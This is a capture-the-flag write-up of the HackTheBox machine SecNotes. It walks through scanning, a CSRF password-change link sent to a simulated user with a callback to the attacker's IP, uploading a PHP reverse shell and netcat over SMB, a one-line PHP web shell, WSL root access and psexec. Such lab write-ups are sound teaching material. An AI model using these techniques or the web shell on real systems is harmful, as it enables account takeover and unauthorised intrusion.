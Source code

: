```yaml
---
title: "HackTheBox - SecNotes"
author: Nasrallah
description: ""
date: 2023-03-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, csrf, wsl, smb]
img_path: /assets/img/hackthebox/machines/secnotes
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [SecNotes](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
PORT     STATE SERVICE      VERSION                                                                                                                           
80/tcp   open  http         Microsoft IIS httpd 10.0                                                                                                          
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE                                                                                                                          
|_http-server-header: Microsoft-IIS/10.0                                                                                                                      
| http-title: Secure Notes - Login                                                                                                                            
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-17T09:21:37
|_  start_date: N/A
|_clock-skew: mean: 2h20m01s, deviation: 4h02m32s, median: 0s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00 
|   Workgroup: HTB\x00
|_  System time: 2023-03-17T02:21:38-07:00
```

We found 3 open ports, 80 and 8808 are IIS http web server and 455 is SMB.

### Web

Let's navigate to the web page on port 8808.

![](11.png)

It's the default page for IIS and nothing really useful can be found.

Let's go to port 80

![](1.png)

We found a login page, the first things usually tried when facing a login form is sql injection and default credentials but none of that worked.

Let's go to the register page.

![](2.png)

After registering a user, let's log in.

![](3.png)

Once logged in, we see a message from `tyler` saying that we can contact him on the contact page.

We also see that we can create notes, change passwords and sign out.

Testing the note functionality we find it's a vulnerable to XSS.

![](4.png)

I also make a cookie stealer but didn't get anything.

Let's move to the change password functionality.

![](5.png)

To change to password, we send a POST request with the following parameters.

```text
password=pass123&confirm_password=pass123&submit=submit
```

Let's test if we can change the password using a get request using the following url.

```url
http://10.10.10.97/change_pass.php?password=pass321&confirm_password=pass321&submit=submit
```

![](6.png)

We managed to change the password with the get request.

Now let's go the contact page.

I setup a web server on my local machine and sent a link of my address to tyler in the contact page.

![](7.png)

The link got clicked


## **Foothold**

Knowing that we can change password using a GET request, and that `tyler` do click links we send him, let's send him the GET request for password change and see if it works.

```bash
http://10.10.10.97/change_pass.php?password=pass321&confirm_password=pass321&submit=submit
http://10.10.17.90/password_changed_successfuly
```

The second url is used to tell me if the links has been clicked.

![](8.png)

After getting a hit our web server, we go to the login page and login as tyler with the new password.

![](9.png)

On one of the notes we see tyler's password for the share `new-site`.

Let's list the smb share as user `tyler` using the password.

```terminal
$ sudo smbclient -L 10.10.10.97 -U tyler                                                                                                           130 ⨯
Enter WORKGROUP\tyler's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        new-site        Disk      
SMB1 disabled -- no workgroup available
```

Let's connect to the `new-site` share.

![](10.png)

We found and html file and a png image, those are the default file for the IIS web server so this share must be the root for the website on port 8808.

Let's test this theory by uploading a file to the share and see if we can request it.

![](12.png)

It worked.

To get a reverse shell, we can upload a php reverse shell.

![](13.png)

We got a shell bu there is a script delete file in the share causing our shell to die.

To solve that we upload a copy of netcat and the php shell to the share, once we get a shell, we use netcat to get another shell.

The problem is we got a shell as `newsite`, to get a shell as tyler i uploaded the following php web shell.

```bash
<?php SYSTEM($_REQUEST["cmd"]);?>
```

Then used it to execute netcat for a shell.

![](14.png)

![](15.png)


## **Privilege Escalation**

On `tyler`'s desktop we find the following.

![](16.png)

There is a shortcut to `bash` which means there is a WSL(Windows Subsystem for Linux), let's locate `bash.exe` using the following command.

```bash
where /R /c:\ bash.exe
```

![](17.png)

We found bash at `c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe`, we run it and got a shell as root.

Checking the root directory, we see that the history file is not empty.

![](18.png)

On the history file we managed to get the administrator's password.

We can use that password to get a shell using `psexec`.

![](19.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

